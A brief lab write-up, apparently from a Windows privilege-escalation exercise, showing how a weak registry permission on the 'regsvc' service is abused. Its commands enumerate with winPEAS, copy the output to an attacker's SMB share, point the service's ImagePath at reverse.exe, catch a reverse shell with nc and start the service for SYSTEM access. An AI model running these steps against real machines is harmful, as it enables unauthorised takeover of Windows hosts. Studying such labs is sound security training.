

1x3 Service - Weak Registry Permissions

## Service - Registry

```bash
.\winPEASany.exe ansi quiet servicesinfo > wpeas_services_op.txt
copy C:\PrivEsc\wpeas_services_op.txt \\10.9.4.127\kali\wpeas_services_op.txt
cat wpeas_services_op.txt
```
Identified 1 service mis-configuration


```bash
sc qc regsvc
```


```bash
C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
```


```bash
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
```


```bash
sudo nc -nvlp 53
net start regsvc
```


**Got the System**


